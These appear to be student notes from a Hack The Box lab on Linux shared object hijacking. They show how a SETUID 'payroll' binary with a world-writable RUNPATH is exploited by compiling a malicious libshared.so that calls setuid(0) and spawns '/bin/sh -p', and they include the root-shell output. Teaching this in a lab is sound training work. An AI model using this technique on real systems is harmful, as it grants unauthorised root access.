 # Shared Object Hijacking

Programs and binaries under development usually have custom libraries associated with them. Consider the following `SETUID` binary.

```shell-session
htb_student@NIX02:~$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

`Ldd` displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.

```shell-session
htb_student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

* We see a non-standard library named `libshared.so`
* it is possible to load shared libraries from custom locations
* Libraries in `RUNPATH` folder are given preference over other folders. This can be inspected using the [readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) utility.

```shell-session
htb_student@NIX02:~$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

* The configuration allows the loading of libraries from the `/development` folder, which is writable by all users.
* malicious library can be placed in this library

```shell-session
htb_student@NIX02:~$ ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

Before compiling a library, we need to find the function name called by the binary.

```shell-session
htb_student@NIX02:~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

```shell-session
htb_student@NIX02:~$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```

```shell-session
htb_student@NIX02:~$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

We can copy an existing library to the `development` folder. Running `ldd` against the binary lists the library's path as `/development/libshared.`so, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can compile a shared object which includes this function.

```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 

```

The `dbquery` function sets our user id to 0 (root) and executing `/bin/sh` when called. Compile it using [GCC](https://linux.die.net/man/1/gcc).

```shell-session
htb_student@NIX02:~$ gcc src.c -fPIC -shared -o /development/libshared.so
```

Executing the binary again should display the banner and pops a root shell.

```shell-session
htb_student@NIX02:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```

## Assessment

Follow the examples in this section to escalate privileges, recreate all examples (don't just run the payroll binary). Practice using ldd and readelf. Submit the version of glibc (i.e. 2.30) in use to move on to the next section.

```
htb-student@NIX02:~$ vim src.c
htb-student@NIX02:~$ gcc src.c -fPIC -shared -o /development/libshared.so
src.c: In function ‘dbquery’:
src.c:6:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
htb-student@NIX02:~$ cd shared_obj_hijack/
htb-student@NIX02:~/shared_obj_hijack$ ./payroll 
***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1008(htb-student) groups=1008(htb-student)
# ldd --version
ldd (Ubuntu GLIBC 2.23-0ubuntu10) 2.23
Copyright (C) 2016 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
# 

```

